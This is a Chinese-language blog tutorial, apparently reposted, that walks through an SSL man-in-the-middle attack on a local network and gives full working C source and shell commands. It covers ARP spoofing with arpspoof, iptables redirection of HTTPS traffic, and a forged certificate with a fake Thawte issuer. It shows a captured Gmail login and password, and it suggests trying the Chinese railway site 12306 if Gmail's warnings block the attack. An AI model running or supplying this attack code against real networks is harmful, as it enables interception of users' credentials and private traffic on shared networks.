

### 通过伪造CA证书，实现SSL中间人攻击

> SSL，即Secure Sockets Layer，是为网络通信提供安全及数据完整性的一种安全协议。SSL是介于传输层和应用层之间的网络协议，为了提供足够的安全性和数据完整性，SSL主要采用了一下几种措施：

  1. 使用证书确认用户和服务器；
  2. 在数据尾部添加校验码，防止中途篡改；
  3. 加密传输数据和校验码，防止中途窃取。
可以看出，SSL协议被设计的十分安全，要攻破它并不容易。但是我们可以利用浏览器对服务器证书检查的缺陷，通过伪造CA证书的方式，进行SSL中间人攻击。

但实际上这个过程中浏览器会弹出警告，SSL攻击就相当于失败了，因此从这个意义上讲，SSL协议依然是无法攻破的。但以上的警告页面中都可以找到继续访问该页面的方式，对于不了解情况的用户，很可能会选择继续访问该页面而被SSL中间人攻击。我们的攻击就是在这种情况下进行的。

##### 实验分析
为了成为中间人，攻击者不但要能同时和服务器，客户端通信，还要嵌入到服务器和客户端的通信链路之中，将服务器的数据转发给客户端，将客户端的数据转发给服务器。实现这样目的的手段有多种，比较常见的有DNS劫持和局域网ARP欺骗。本次实验便是在局域网中通过ARP欺骗来实现中间人的。

使用ARP欺骗后，被攻击者的流量将被导向攻击者，攻击者需要将其他的流量转发给真正的网关，而将SSL的流量转发到本地，以便本地程序做SSL中间人攻击。

为了让本地程序进行SSL中间人攻击，我们需要监听被转发到本地的流量，从中得知被攻击者要连接的服务器地址，然后分别与被攻击者和真正的服务器建立SSL连接，我们在这两个连接之间转发数据，这样便可以得到被攻击者和服务器之间交互的数据内容了。

与服务器建立的SSL连接和普通的SSL连接没有什么区别，在服务器看来，我们和真正的客户端是一样的，但是和被攻击者建立的连接就不同了。被攻击者并没有连接我们，我们实际上伪装成了真正的服务器。这个过程中，我们需要进行伪造密钥和证书等步骤，以便完成伪装成服务器的任务。
    
通过以上的分析，我们已经了解了实验的步骤，下面就开始着手准备实验。

##### 实验环境和实验目标
我们搭建了如下的实验环境。局域网中有两台主机，主机A（IP：192.168.200.121）和主机B（IP：192.168.200.122），它们通过一个NAT网关（IP：192.168.200.1）和外网相连，A和B只有一个网卡，接口均为eth0。其中主机A是攻击机，主机B是被攻击机，操作系统均为Ubuntu10.04。

为了检验SSL中间人攻击的效果，本次实验的目标是，当主机B的用户通过https登录gmail时，在主机A截获其登录的用户名和密码。

##### 实验过程
我们的实验将分为以下几个步骤，其中红色标出的为执行的命令，一般都需要在root权限下执行，蓝色的是部分C代码，使用gcc-4.4.3编译。

1. 劫持主机B
我们使用ARP欺骗的方法劫持主机B。
  
所谓的ARP协议，就是地址解析协议。在TCP/IP网络环境下，每个主机都有一个IP地址，但IP地址只有在网络层以上才有效。而在数据链路层，为了将报文从一个主机发往另一个主机，必须知道目的主机的物理地址，这就是MAC地址。这样就有从IP地址到MAC地址的转换过程，而ARP协议就是进行这种转换时使用的协议。而所谓ARP欺骗，就是在IP地址到MAC地址的转换过程中进行欺骗，使得IP地址转换为错误的MAC地址，从而将流量导向错误的地方的攻击方式。
  
在linux下有很多进行ARP攻击的工具，我们使用arpspoof进行ARP欺骗。在Ubuntu10.04命令行下使用如下命令

  `apt-get install dsniff`
  
安装dsniff软件包之后，便可以使用arpspoof命令进行ARP欺骗了。arpspoof命令的使用方法是
  
  `arpspoof [-i interface][-t target] host`
  
即向IP为target的主机声称自己的MAC地址是IP为host的主机的MAC地址。
    
为了让主机B认为主机A是网关，应当在命令行下执行如下命令：
  
  `arpspoof -i eth0 -t 192.168.200.122 192.168.200.1`

在执行完该命令后，原本能上网的主机B不能上网了，这是因为原本应该发往网关的报文都被发往了主机A的缘故。

到此，我们便成功的劫持了主机B发出的流量。也许读者会问，作为中间人不是需要劫持通信双方的流量吗，为什么只欺骗主机B，却不欺骗网关呢。实际上，在我们设计的这个场景中，欺骗网关并不是必须的，我们的目的是当用户连接gmail时获得用户名密码，连接gmail使用的SSL连接是由主机B发起的，到了主机A后，流量被劫持，所以google的服务器实际上就是在和主机A通信，不需要劫持网关就能得到服务器的数据。但如果劫持网关的话，可以防止主机B在使用其他协议时出现异常，使得中间人攻击更隐蔽，更不容易被发现。

2. 成为中间人
单纯劫持主机B后，主机B便不能上网了，这样主机B很容易发现问题，所以我们还要进一步处理，将劫持的流量发往网关。通过集成在linux内核中集成的 IP 信息包过滤系统iptables可以实现我们的目的。
  
Iptables包括很多个过滤表，每个过滤表中可以包括多个规则链，每个规则链中还可以包括很多的过滤规则，是一个十分强大的IP信息包过滤系统。开启iptables的IP转发的方法是执行下面的命令：
  
  `echo 1 > /proc/sys/net/ipv4/ip_forward`
  
开启了IP转发之后，iptables将在linux内核中进行IP转发，本地的IP报文将交给本地的程序处理，不是本地的IP报文将通过查找内核中的路由表进行转发。由于我们没有设置路由表，非本地的IP报文默认被转发到网关。 
  
然后，在iptables的nat表中的PREROUTING链中添加一个规则，将tcp流量中目的端口为443（即SSL连接）的流量转发到本地的8888端口，以便本地程序进行处理。
  
  `iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8888`
  
nat表，顾名思义，就是在做NAT（Network Address Translation）时需要用到的表，而PREROUTING链，就是在查找路由表之前会进行匹配的过滤规则链。但是我们使用它们并不是做NAT，而是使用了nat表中PREROUTING链的REDIRECT功能，即在linux内核查找路由表之前，将符合条件的IP报文的源地址修改为本地，并将源端口修改为8888。
  
进行到此，我们已经成为主机B和服务器中的中间人了。而主机B现在可以连接http，但却不能连接https，因为SSL的流量都被转发到主机A的本地端口8888了，但还没有本地程序会处理它。下面，我们将编写本地程序完成劫持。

3. 与主机B建立socket连接
我们使用socket监听8888端口，以便等待主机B的连接。该部分封装到了socket_to_client_init函数中。 
  
```
  int socket_to_client_init(short int port) {
  ……
  // 初始化一个socket，
  sockfd = socket(AF_INET, SOCK_STREAM, 0);
  ……
  // 将该socket绑定到8888端口上，
  addr.sin_port = htons(port);
  bind(sockfd, (struct sockaddr*) &addr, sizeof(struct sockaddr);
  ……
  // 然后监听该端口。
  listen(sockfd, LISTEN_BACKLOG);
  ……
  }
```

当主机B发起一个SSL连接时，我们在本地8888端口就可以监听到连接，这时我们接受这个连接，并获得该链接的原始目的地址，以便后续连接服务器时使用。该部分封装到了get_socket_to_client函数中。

```
int get_socket_to_client(int socket, struct sockaddr_in* original_server_addr) {
  ……
  // 接受这个连接，
client_fd = accept(socket, (struct sockaddr *) &client_addr, &client_size);
  ……
// 通过getsockopt函数获得socket中的SO_ORIGINAL_DST属性，得到报文被iptables重定向之前的原始目的地址。使用SO_ORIGINAL_DST属性需要包括头文件。
// 值得注意的是，在当前的情景下，通过getsockname等函数是无法正确获得原始的目的地址的，因为iptables在重定向报文到本地端口时，已经将IP报文的目的地址修改为本地地址，所以getsockname等函数获得的都是本地地址而不是服务器的地址。
getsockopt(client_fd, SOL_IP, SO_ORIGINAL_DST, original_server_addr, &server_size)
……
}
```

这时，我们便成功的劫持了主机B的socket连接，并且获得了主机B原始连接的服务器地址。接下来我们使用操作系统的fork函数新建一个子进程处理接下来的事情，而主进程继续监听8888端口等待其他的连接。

4. 与服务器建立socket连接
通过获得的主机B要连接的原始服务器地址，与服务器建立一个socket连接。这部分封装到了get_socket_to_server函数中。
  
```
  int get_socket_to_server(struct sockaddr_in* original_server_addr) {
  ……
  // 初始化一个socket，
  sockfd = socket(AF_INET, SOCK_STREAM, 0);
  ……
  // 使用原始地址和真正的服务器建立一个socket连接。
  connect(sockfd, (struct sockaddr*) original_server_addr, sizeof(struct sockaddr);
  ……
  }
```

5. 与服务器建立SSL连接
在与服务器建立了socket连接之后，我们就可以建立SSL连接了。这里我们使用linux系统中著名的SSL库openssl来完成我们的接下来的工作。使用openssl需要包括和两个头文件。
服务器建立了socket连接部分封装在SSL_to_server_init函数中。
  
```
  SSL* SSL_to_server_init(int socket) {
  ……
  // 新建一个CTX
  ctx = SSL_CTX_new(SSLv23_client_method());
  ……
  // 使用上面新建的CTX建立一个新的SSL连接
  SSL *ssl = SSL_new(ctx);
  ……
  }
```
在这之后，调用SSL_accept函数即可完成与服务器的SSL连接。

6. 伪造证书并与主机B建立SSL连接
为了假冒服务器与主机B进行通信，我们需要假冒一个证书。为了增加攻击成功的可能性，我们以服务器真实的证书为蓝本，伪造一个假冒的证书。

在firefox浏览器选择一个证书并打开，我们会看到如下页面：

  

  
通过伪造CA证书，实现SSL中间人攻击 通过伪造CA证书，实现SSL中间人攻击

从中我们可以看出，一个证书拥有如下的结构：

  

通过伪造CA证书，实现SSL中间人攻击

浏览器会查看证书中的发行者，并在浏览器中查找该证书发行者的公钥，如果找到就用该公钥验证该证书，没有找到则报警。

我们伪造的证书没有办法避免浏览器报警，但可以将发行者一项伪造的极像一个合法的CA，并使用自己的私钥进行签名，而证书的其他部分则照搬原始的证书，这样等浏览器告警，用户自己查看证书后，用户选择继续浏览的可能性也更大。因此我们采用动态生成证书的方式，而不是预先生成证书的方式。

为了伪造证书，首先要先生成密钥。密钥可以是程序运行过程中动态生成的，但为了避免浏览器连续告警，用户每次浏览同一站点时，我们伪造的证书必须相同，所以密钥最好每次保持一致。因此，我们采用预先生成密钥并保存成文件的方式，当程序启动时再加载。

Openssl库中已经内置了生成密钥的工具，我们可以使用一下命令生成密钥：

```
  openssl genrsa -out private.key 1024
  openssl rsa -in private.key -pubout -out public.key
```

这两条命令会在当前目录下生成两个文件，private.key和public.key，分别存储了1024位的RSA私钥和对应的公钥。

有了相应的密钥后，我们便在程序中加载它们。加载密钥的代码被封装在create_key函数中。

```
  EVP_PKEY* create_key() {
  ……
  // 打开文件并加载私钥
  fp = fopen("private.key", "r");
  PEM_read_RSAPrivateKey(fp, &rsa, NULL, NULL);
  ……
  // 打开文件并加载公钥
  fp = fopen("public.key", "r");
  PEM_read_RSAPublicKey(fp, &rsa, NULL, NULL);
  ……
  }
```

之后，我们便可以伪造证书了，伪造证书的代码封装在create_fake_certificate函数中。

```
  X509* create_fake_certificate(SSL* ssl_to_server, EVP_PKEY *key) {
  ……
  // 从服务器获取证书并复制一个副本
  X509 *server_x509 = SSL_get_peer_certificate(ssl_to_server);
  X509 *fake_x509 = X509_dup(server_x509);
  ……
  // 证书修改的代码详见代码，这里展示的只是随意填写的几个字段，读者可以修改这部分代码使得伪造的证书更加逼真
  X509_NAME_add_entry_by_txt(issuer, "CN", MBSTRING_ASC, "Thawte SGC CA", -1, -1, 0);
  X509_NAME_add_entry_by_txt(issuer, "O", MBSTRING_ASC, "Thawte Consulting (Pty) Ltd.", -1, -1, 0);
  X509_NAME_add_entry_by_txt(issuer, "OU", MBSTRING_ASC, "Thawte SGC CA", -1, -1, 0);
  X509_set_issuer_name(fake_x509, issuer);
  ……
  // 重新设置副本的密钥为我们自己的密钥，并使用该密钥签名
  X509_set_pubkey(fake_x509, key);
  X509_sign(fake_x509, key, EVP_sha1());
  ……
  }
```

至此，伪造证书的任务完成了，然后我们调用SSL_to_client_init函数，

```
  SSL* SSL_to_client_init(int socket, X509 *cert, EVP_PKEY *key) {
  ……
  // 生成一个新的CTX，并设置它使用的证书和密钥
  ctx = SSL_CTX_new(SSLv23_server_method());
  SSL_CTX_use_certificate(ctx, cert);
  SSL_CTX_use_PrivateKey(ctx, key);
  SSL_CTX_check_private_key(ctx);
  ……
  // 新建一个SSL连接
  SSL *ssl = SSL_new(ctx);
  ……
  }
```

最后，调用SSL_accept函数完成与主机B的SSL连接。至此，SSL中间人攻击完成，接下来就可以抓取数据了。

7. 转移数据并输出
我们将抓取数据的代码封装到transfer函数中。该函数主要是使用系统的select函数同时监听服务器和客户端，并使用SSL_read和SSL_write不断的在两个信道之间传递数据，并将数据输出到控制台。

```
  int transfer(SSL *ssl_to_client, SSL *ssl_to_server) {
  ……
  fd_set fd_read;
  while (1) {
  ……
  FD_ZERO(&fd_read);
  FD_SET(socket_to_server, &fd_read);
  FD_SET(socket_to_client, &fd_read);
  select(max, &fd_read, NULL, NULL, &timeout);
  ……
  if (FD_ISSET(socket_to_client, &fd_read)) {
  ……
  SSL_read(ssl_to_client, buffer, sizeof(buffer));
  SSL_write(ssl_to_server, buffer, ret);
  ……
  }
  if (FD_ISSET(socket_to_server, &fd_read)) {
  ……
  SSL_read(ssl_to_server, buffer, sizeof(buffer));
  SSL_write(ssl_to_client, buffer, ret);
  ……
  }
  }
  }
```
##### 实验汇总
以上的步骤为实验设计时进行的步骤，而实际攻击过程的步骤与上面讨论的有所不同，读者应该也会发现，上面的步骤会使得主机B断网，B会对攻击有所察觉，这在实际的攻击过程中是不应该出现的。

假设我们的C程序编译的可执行文件的文件名为SSL_man_in_middle，则经过调整顺序，实际攻击的脚本如下：

  + iptables -t nat --flush

  + iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8888

  + openssl genrsa -out private.key 1024

  + openssl rsa -in private.key -pubout -out public.key

  + ./SSL_man_in_middle > ret
      另启一个命令行，执行

  + echo 1 >/proc/sys/net/ipv4/ip_forward

  + arpspoof -i eth0 -t 192.168.200.122 192.168.200.1
      当然，其中生成密钥的两行命令只有在第一次运行时才应该被包含。

#####实验结果
在主机A启动上面的脚本，并将脚本的输出存储到一个文件。在主机B使用firefox浏览器访问gmail时，出现如下警告，在选择继续访问后，出现了gmail的页面。

通过伪造CA证书，实现SSL中间人攻击 通过伪造CA证书，实现SSL中间人攻击,填写用户名密码登陆后，在主机A的输出文件中，查找passwd字段，得到以下结果：

```
ltmpl=default&ltmplcache=2&pstMsg=1&dnConn=&continue=https://mail.google.com/mail/?gausr=qwerty@gmail.com&service=mail&rm=false&dsh=-5222013950306778463&ltmpl=default&ltmpl=default&scc=1&timeStmp=&secTok=&GALX=FlcQNOGq3tg&Email=qwerty@gmail.com&Passwd=1234567890
```

其中标红的地方，便是我登陆时填写的用户名和密码，我们实验的目标达成了。

最后附上攻击使用的代码：
```
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <sys/param.h>
#include <linux/netfilter_ipv4.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/time.h>

#include <openssl/ssl.h>
#include <openssl/err.h>

#define LISTEN_BACKLOG 50

#define warning(msg) \
    do { fprintf(stderr, "%d, ", sum); perror(msg); } while(0)

#define error(msg) \
    do { fprintf(stderr, "%d, ", sum); perror(msg); exit(EXIT_FAILURE); } while (0)

int sum = 1;
struct timeval timeout = { 0, 1000000 };

int get_socket_to_server(struct sockaddr_in* original_server_addr) {
    int sockfd;

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
        error("Fail to initial socket to server!");
    if (connect(sockfd, (struct sockaddr*) original_server_addr,
            sizeof(struct sockaddr)) < 0)
        error("Fail to connect to server!");
    
    printf("%d, Connect to server [%s:%d]\n", sum,
            inet_ntoa(original_server_addr->sin_addr),
            ntohs(original_server_addr->sin_port));
    return sockfd;
}

int socket_to_client_init(short int port) {
    int sockfd;
    int on = 1;
    struct sockaddr_in addr;

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
        error("Fail to initial socket to client!");
    if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, (char *) &on, sizeof(on)) < 0)
        error("reuseaddr error!");
    
    memset(&addr, 0, sizeof(addr));
    addr.sin_addr.s_addr = htonl(INADDR_ANY);
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    if (bind(sockfd, (struct sockaddr*) &addr, sizeof(struct sockaddr)) < 0) {
        shutdown(sockfd, SHUT_RDWR);
        error("Fail to bind socket to client!");
    }
    if (listen(sockfd, LISTEN_BACKLOG) < 0) {
        shutdown(sockfd, SHUT_RDWR);
        error("Fail to listen socket to client!");
    }
    
    return sockfd;
}

int get_socket_to_client(int socket, struct sockaddr_in* original_server_addr) {
    int client_fd;
    struct sockaddr_in client_addr;
    socklen_t client_size = sizeof(struct sockaddr);
    socklen_t server_size = sizeof(struct sockaddr);

    memset(&client_addr, 0, client_size);
    memset(original_server_addr, 0, server_size);
    client_fd = accept(socket, (struct sockaddr *) &client_addr, &client_size);
    if (client_fd < 0) {
        warning("Fail to accept socket to client!");
        return -1;
    }
    if (getsockopt(client_fd, SOL_IP, SO_ORIGINAL_DST, original_server_addr,
            &server_size) < 0) {
        warning("Fail to get original server address of socket to client!");;
    }
    printf("%d, Find SSL connection from client [%s:%d]", sum,
            inet_ntoa(client_addr.sin_addr), ntohs(client_addr.sin_port));
    printf(" to server [%s:%d]\n", inet_ntoa(original_server_addr->sin_addr),
            ntohs(original_server_addr->sin_port));
    
    return client_fd;
}

void SSL_init() {
    SSL_library_init();
    SSL_load_error_strings();
}

void SSL_Warning(char *custom_string) {
    char error_buffer[256] = { 0 };

    fprintf(stderr, "%d, %s ", sum, custom_string);
    ERR_error_string(ERR_get_error(), error_buffer);
    fprintf(stderr, "%s\n", error_buffer);
}

void SSL_Error(char *custom_string) {
    SSL_Warning(custom_string);
    exit(EXIT_FAILURE);
}

SSL* SSL_to_server_init(int socket) {
    SSL_CTX *ctx;

    ctx = SSL_CTX_new(SSLv23_client_method());
    if (ctx == NULL)
        SSL_Error("Fail to init ssl ctx!");
    
    SSL *ssl = SSL_new(ctx);
    if (ssl == NULL)
        SSL_Error("Create ssl error");
    if (SSL_set_fd(ssl, socket) != 1)
        SSL_Error("Set fd error");
    
    return ssl;
}

SSL* SSL_to_client_init(int socket, X509 *cert, EVP_PKEY *key) {
    SSL_CTX *ctx;

    ctx = SSL_CTX_new(SSLv23_server_method());
    if (ctx == NULL)
        SSL_Error("Fail to init ssl ctx!");
    if (cert && key) {
        if (SSL_CTX_use_certificate(ctx, cert) != 1)
            SSL_Error("Certificate error");
        if (SSL_CTX_use_PrivateKey(ctx, key) != 1)
            SSL_Error("key error");
        if (SSL_CTX_check_private_key(ctx) != 1)
            SSL_Error("Private key does not match the certificate public key");
    }
    
    SSL *ssl = SSL_new(ctx);
    if (ssl == NULL)
        SSL_Error("Create ssl error");
    if (SSL_set_fd(ssl, socket) != 1)
        SSL_Error("Set fd error");
    
    return ssl;
}

void SSL_terminal(SSL *ssl) {
    SSL_CTX *ctx = SSL_get_SSL_CTX(ssl);
    SSL_shutdown(ssl);
    SSL_free(ssl);
    if (ctx)
        SSL_CTX_free(ctx);
}

EVP_PKEY* create_key() {
    EVP_PKEY *key = EVP_PKEY_new();
    RSA *rsa = RSA_new();

    FILE *fp;
    if ((fp = fopen("private.key", "r")) == NULL)
        error("private.key");
    PEM_read_RSAPrivateKey(fp, &rsa, NULL, NULL);
    if ((fp = fopen("public.key", "r")) == NULL)
        error("public.key");
    PEM_read_RSAPublicKey(fp, &rsa, NULL, NULL);
    
    EVP_PKEY_assign_RSA(key,rsa);
    return key;
}

X509* create_fake_certificate(SSL* ssl_to_server, EVP_PKEY *key) {
    unsigned char buffer[128] = { 0 };
    int length = 0, loc;
    X509 *server_x509 = SSL_get_peer_certificate(ssl_to_server);
    X509 *fake_x509 = X509_dup(server_x509);
    if (server_x509 == NULL)
        SSL_Error("Fail to get the certificate from server!");
    //    X509_print_fp(stderr, server_x509);

    X509_set_version(fake_x509, X509_get_version(server_x509));
    ASN1_INTEGER *a = X509_get_serialNumber(fake_x509);
    a->data[0] = a->data[0] + 1;
    //    ASN1_INTEGER_set(X509_get_serialNumber(fake_x509), 4);
    X509_NAME *issuer = X509_NAME_new();
    //    length = X509_NAME_get_text_by_NID(issuer, NID_organizationalUnitName,
    //            buffer, 128);
    //    buffer[length] = ' ';
    //    loc = X509_NAME_get_index_by_NID(issuer, NID_organizationalUnitName, -1);
    //    X509_NAME_delete_entry(issuer, loc);
    X509_NAME_add_entry_by_txt(issuer, "CN", MBSTRING_ASC,
            "Thawte SGC CA", -1, -1, 0);
    X509_NAME_add_entry_by_txt(issuer, "O", MBSTRING_ASC, "Thawte Consulting (Pty) Ltd.", -1, -1, 0);
    X509_NAME_add_entry_by_txt(issuer, "OU", MBSTRING_ASC, "Thawte SGC CA", -1,
            -1, 0);
    X509_set_issuer_name(fake_x509, issuer);
    //    X509_set_notBefore(fake_x509, X509_get_notBefore(server_x509));
    //    X509_set_notAfter(fake_x509, X509_get_notAfter(server_x509));
    //    X509_set_subject_name(fake_x509, X509_get_subject_name(server_x509));
    X509_set_pubkey(fake_x509, key);
    //    X509_add_ext(fake_x509, X509_get_ext(server_x509, -1), -1);
    X509_sign(fake_x509, key, EVP_sha1());
    
    //    X509_print_fp(stderr, fake_x509);
    
    return fake_x509;
}

int transfer(SSL *ssl_to_client, SSL *ssl_to_server) {
    int socket_to_client = SSL_get_fd(ssl_to_client);
    int socket_to_server = SSL_get_fd(ssl_to_server);
    int ret;
    char buffer[4096] = { 0 };

    fd_set fd_read;
    
    printf("%d, waiting for transfer\n", sum);
    while (1) {
        int max;
    
        FD_ZERO(&fd_read);
        FD_SET(socket_to_server, &fd_read);
        FD_SET(socket_to_client, &fd_read);
        max = socket_to_client > socket_to_server ? socket_to_client + 1
                : socket_to_server + 1;
    
        ret = select(max, &fd_read, NULL, NULL, &timeout);
        if (ret < 0) {
            SSL_Warning("Fail to select!");
            break;
        } else if (ret == 0) {
            continue;
        }
        if (FD_ISSET(socket_to_client, &fd_read)) {
            memset(buffer, 0, sizeof(buffer));
            ret = SSL_read(ssl_to_client, buffer, sizeof(buffer));
            if (ret > 0) {
                if (ret != SSL_write(ssl_to_server, buffer, ret)) {
                    SSL_Warning("Fail to write to server!");
                    break;
                } else {
                    printf("%d, client send %d bytes to server\n", sum, ret);
                    printf("%s\n", buffer);
                }
            } else {
                SSL_Warning("Fail to read from client!");
                break;
            }
        }
        if (FD_ISSET(socket_to_server, &fd_read)) {
            memset(buffer, 0, sizeof(buffer));
            ret = SSL_read(ssl_to_server, buffer, sizeof(buffer));
            if (ret > 0) {
                if (ret != SSL_write(ssl_to_client, buffer, ret)) {
                    SSL_Warning("Fail to write to client!");
                    break;
                } else {
                    printf("%d, server send %d bytes to client\n", sum, ret);
                    printf("%s\n", buffer);
                }
            } else {
                SSL_Warning("Fail to read from server!");
                break;
            }
        }
    }
    return -1;
}

int main() {
    // 初始化一个socket，将该socket绑定到8888端口，并监听
    int socket = socket_to_client_init(8888);
    // 从文件读取伪造SSL证书时需要的RAS私钥和公钥
    EVP_PKEY* key = create_key();
    // 初始化openssl库
    SSL_init();

    while (1) {
        struct sockaddr_in original_server_addr;
        // 从监听的端口获得一个客户端的连接，并将该连接的原始目的地址存储到original_server_addr中
        int socket_to_client = get_socket_to_client(socket, &original_server_addr);
        if (socket_to_client < 0)
            continue;
    
        // 新建一个子进程处理后续事宜，主进程继续监听端口等待后续连接
        if (!fork()) {
            X509 *fake_x509;
            SSL *ssl_to_client, *ssl_to_server;
    
            // 通过获得的原始目的地址，连接真正的服务器，获得一个和服务器连接的socket
            int socket_to_server = get_socket_to_server(&original_server_addr);
            // 通过和服务器连接的socket建立一个和服务器的SSL连接
            ssl_to_server = SSL_to_server_init(socket_to_server);
            if (SSL_connect(ssl_to_server) < 0)
                SSL_Error("Fail to connect server with ssl!");
            printf("%d, SSL to server\n", sum);
    
            // 从服务器获得证书，并通过这个证书伪造一个假的证书
            fake_x509 = create_fake_certificate(ssl_to_server, key);
            // 使用假的证书和我们自己的密钥，和客户端建立一个SSL连接。至此，SSL中间人攻击成功
            ssl_to_client = SSL_to_client_init(socket_to_client, fake_x509, key);
            if (SSL_accept(ssl_to_client) <= 0)
                SSL_Error("Fail to accept client with ssl!");
            printf("%d, SSL to client\n", sum);
    
            // 在服务器SSL连接和客户端SSL连接之间转移数据，并输出服务器和客户端之间通信的数据
            if (transfer(ssl_to_client, ssl_to_server) < 0) {
                printf("%d, connection shutdown\n", sum);
                SSL_terminal(ssl_to_client);
                SSL_terminal(ssl_to_server);
                shutdown(socket_to_server, SHUT_RDWR);
                shutdown(socket_to_client, SHUT_RDWR);
                X509_free(fake_x509);
            }
        } else {
            ++sum;
        }
    }
    
    EVP_PKEY_free(key);
    return 0;
}
```

补充：
编译时找不到openssl/ssl.h，需要安装libssl：
  `apt-get install libssl-dev`
编译时找不到ssl相关函数的，需要添加GCC参数：
  `-lssl -lcrypto`
最近浏览器加强了对证书的检查，有可能在警告页找不到继续浏览的选项，但不是所有的网站都是这样的，如果gmail不行，可以试试12306。

**本文来源**：本文转载自http://blog.sina.com.cn/s/blog_4a898cfb0100t8j7.html 。